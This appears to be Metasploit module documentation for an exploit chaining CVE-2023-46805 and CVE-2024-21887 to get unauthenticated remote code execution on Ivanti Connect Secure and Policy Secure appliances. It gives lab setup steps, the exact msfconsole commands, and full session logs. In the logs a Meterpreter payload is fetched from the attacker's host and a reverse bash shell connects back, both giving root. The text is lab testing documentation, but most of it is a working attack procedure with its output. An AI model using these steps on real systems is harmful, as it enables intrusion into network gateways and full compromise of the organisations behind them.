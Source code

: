 ## Vulnerable Application
This module chains an authentication bypass vulnerability (CVE-2023-46805) and a command injection
vulnerability (CVE-2024-21887) to exploit vulnerable instances of either Ivanti Connect Secure or Ivanti
Policy Secure, to achieve unauthenticated remote code execution. All currently supported versions 9.x and
22.x prior to the vendor mitigation are vulnerable. It is unknown if unsupported versions 8.x and below are
also vulnerable.

## Testing
To test we used Ivanti Connect Secure version 22.3R1 (build 1647), deployed as a virtual appliance for HyperV. The
below steps are for HyperV, but it should be very similar to install on VMWare.

* Signup for a trial to download the file `ps-ics-hyper-v-isa-v-22.3r1.0-b1647-package.zip`
* From this ZIP file, extract the file `ISA-V-HYPERV-ICS-22.3R1-1647.1-VT-hyperv.vhdx`
* Create a new VM in HyperV and specify the VHDX file as the hard drives media.
* Boot the VM and follow the console instructions to install the product.
* After installation completes, you will have created an admin account and password. You can log into the admin
web interface by visiting https://<TARGET_IP_ADDRESS>/admin in your web browser if you want.

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/http/ivanti_connect_secure_rce_cve_2023_46805`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp`
6. `check`
7. `exploit`

## Scenarios
To support a broad set of available payloads, we support both a Linux target and a Unix Target. This allows for native
Linux payloads to be used, but also payloads like Python meterpreter or a Bash shell.

### Linux Target

```
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set RHOST 192.168.86.111
RHOST => 192.168.86.111
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set target 0
target => 0
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2023_46805):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      DbFmtsbLwkUU     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > check
[+] 192.168.86.111:443 - The target is vulnerable. IVE-OS 22.3R1 (1647)
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. IVE-OS 22.3R1 (1647)
[*] Sending stage (3045380 bytes) to 192.168.86.111
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.111:27576) at 2024-01-17 10:16:52 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.111
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
meterpreter >
```

### Unix Target

```
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set target 1
target => 1
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2023_46805):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > check
[+] 192.168.86.111:443 - The target is vulnerable. IVE-OS 22.3R1 (1647)
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. IVE-OS 22.3R1 (1647)
[*] Command shell session 2 opened (192.168.86.42:4444 -> 192.168.86.111:27582) at 2024-01-17 10:19:19 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux localhost2 4.15.18.34-production #1 SMP Fri Jun 17 13:08:47 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
pwd
/data/var/cores
cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
exit
[*] 192.168.86.111 - Command shell session 2 closed.
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) >
```
